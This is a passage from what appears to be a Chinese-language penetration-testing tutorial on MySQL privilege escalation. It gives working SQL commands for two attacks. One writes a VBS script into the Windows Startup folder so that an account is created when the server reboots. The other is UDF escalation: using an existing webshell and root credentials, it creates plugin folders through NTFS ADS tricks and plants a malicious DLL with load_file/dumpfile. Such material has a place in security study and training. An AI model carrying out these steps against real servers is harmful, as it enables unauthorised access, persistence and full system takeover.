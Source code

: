  注意双引号和括号以及后面的“0”一定要输入，最后由这三条命令来建立一个VBS的脚本程序

4、查看表a中的内容确认数据没有输错

 `mysql>select * from a;`

5、输出表为一个VBS的脚本文件

 `mysql>select * from a into outfile "C:\\Documents and Settings\\Administrator\\「开始」菜单\\程序\\启动\\a.vbs"`

6、待目标服务器重启即可运行脚本创建帐号

#### 3.2 利用UDF提权

（1）udf是什么？
	为了开发者能够自己方便写自己的函数
	create function 函数名 returns {string|integer|real} soname '文件名'
	soname '文件名'表示这个函数从哪个文件里面引入，而这个文件一般是动态链接库
	windows是以dll后缀名结尾
	linux是以so后缀名结尾

（2）提权原理
	已知mysql的管理员账号和密码。上传udf.dll文件到指定文件夹，使用create function调用dll中的函数
（3）注意事项

​	**Mysql<5.0**，导出路径随意;	

​	**5.0<=Mysql<5.1**，udf.dll文件必须放置在'c:/windows/system32/udf.dll'[针对windows2003系统]
​	针对windows2000，udf.dll文件必须放置在'c:/winnt/system32/'

​	**Mysql版本大于5.1**，udf.dll文件必须放置在mysql的安装目录下的lib\plugin文件夹下面。大于5.1版本没有plugin文件夹，需要手动创建
​	路径可以用下面这条命令查看: `show variables like '%plugin%';`

（4）利用流程
	环境：windows2003
	方法：利用大马来getshell
	前提：已getshell，获取账号和密码root和root
	1、利用大马连接数据库，获取数据库版本5.5.47
	2、得到mysql的安装目录，查找是否有plugin的文件夹，若没有，需要创建
	方法一：

​	//利用NTFS ADS创建lib目录
​	select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';  

​	//利用NTFS ADS创建plugin目录
​	select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';
​	select 'It is dll' into dumpfile 'C:\\phpStudy\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';	

​	方法二：手动创建文件夹

​	3、找到相对应利用的dll文件，上传到plugin目录下，前提是该目录有读写的权限

​	webshell没有读写权限时：

​	找一个有读写权限的目录。将udf.dll上传上去。
​	select load_file('c:\回收站\xx.dll') into dumpfile 'C:\Program Files\MySQL\MySQL Server 5.1\lib\plugin\xx.dll'
